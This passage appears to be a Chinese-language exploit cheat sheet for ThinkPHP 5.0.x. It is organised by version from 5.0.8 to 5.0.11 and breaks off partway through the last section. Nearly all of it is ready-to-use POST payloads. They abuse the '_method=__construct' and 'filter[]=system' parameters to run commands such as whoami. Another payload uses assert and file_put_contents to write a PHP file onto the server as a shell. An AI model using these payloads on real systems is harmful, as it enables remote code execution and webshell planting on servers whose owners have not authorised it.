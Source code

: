 debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.8
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.9
debug 无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.10
从5.0.10开始默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
### 5.0.11
默认debug=false，debug无关
命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
```